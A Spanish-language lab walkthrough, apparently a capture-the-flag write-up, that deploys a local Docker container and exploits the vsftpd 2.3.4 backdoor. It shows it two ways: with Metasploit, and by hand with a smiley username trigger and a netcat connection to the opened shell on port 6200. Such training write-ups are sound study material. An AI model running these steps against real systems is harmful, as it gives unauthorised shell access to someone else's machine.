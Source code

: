 Desplegamos el contenedor:

```Bash
bash auto_deploy.sh 
```

![Pasted image 20250130162053](https://github.com/user-attachments/assets/c44a975a-6fc8-40bb-bf03-f128554e897b)

Escaneamos la IP:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p- 172.17.0.2
```

![Pasted image 20250130162149](https://github.com/user-attachments/assets/c87c9ee2-5aa5-4c70-9215-e4b02c192061)

Utilizamos **Metasploit** para explotar la vulnerabilidad:

```
search vsftpd
```

![Pasted image 20250130162511](https://github.com/user-attachments/assets/28f427c5-a837-4f5a-84cd-ec5b4f4ad9c5)

```
use exploit/unix/ftp/vsftpd_234_backdoor
```

![Pasted image 20250130162525](https://github.com/user-attachments/assets/1c1fdc4b-313a-4f86-8c27-94251972738c)

```
show options
```

![Pasted image 20250130162540](https://github.com/user-attachments/assets/13715516-34db-4a3b-a580-88ce5ebb33fd)

```
set RHOSTS 172.17.0.2
```

![Pasted image 20250130162555](https://github.com/user-attachments/assets/7360a8b6-e2bf-4436-b428-9cbd191fd933)

```
show options
```

![Pasted image 20250130162608](https://github.com/user-attachments/assets/0a422cea-66f1-4383-a97c-d83bbd2867aa)

```
exploit
```

![Pasted image 20250130162625](https://github.com/user-attachments/assets/6e8b3cee-3c4c-4e27-9645-0bec9e113f29)

```Bash
/bin/bash -i
```

![Pasted image 20250130162636](https://github.com/user-attachments/assets/09ef7af3-e9fd-41f1-8a75-3597215adb4c)

```Bash
whoami
```

![Pasted image 20250130162654](https://github.com/user-attachments/assets/610b8afd-227d-4a6a-a8fd-002ac98b23c1)

Otra forma de explotar:

```Bash
ftp 172.17.0.2
```

![Pasted image 20250130162943](https://github.com/user-attachments/assets/1d31d150-9de8-4105-93a2-d4a2b34d8d29)

```Bash
hola:)
```

![Pasted image 20250130163018](https://github.com/user-attachments/assets/4c22136c-96b6-49e1-8bef-387a1d76f1aa)

```Bash
'blank'
```

![Pasted image 20250130163104](https://github.com/user-attachments/assets/6cd7b704-5d5f-4460-9590-f4964b992335)

Comprobamos que se ha abierto el puerto 6200:

```Bash
nmap -sV -sC -sS -T 5 -n -Pn -p 6200 172.17.0.2
```

![Pasted image 20250130163147](https://github.com/user-attachments/assets/cd83e74d-d870-4c14-95d6-373267d26f20)

Nos conectamos al puerto con **Netcat**:

```Bash
nc 172.17.0.2 6200
```

![Pasted image 20250130163304](https://github.com/user-attachments/assets/1057a3cb-539c-4d6e-91cd-f62ff86f4550)

```Bash
/bin/bash -i
```

![Pasted image 20250130163320](https://github.com/user-attachments/assets/36be5d74-f6e7-42b4-aed0-24409f467b41)

```Bash
whoami
```

![Pasted image 20250130163330](https://github.com/user-attachments/assets/ce7e769c-9c73-4497-9c4e-1825ed7f6928)
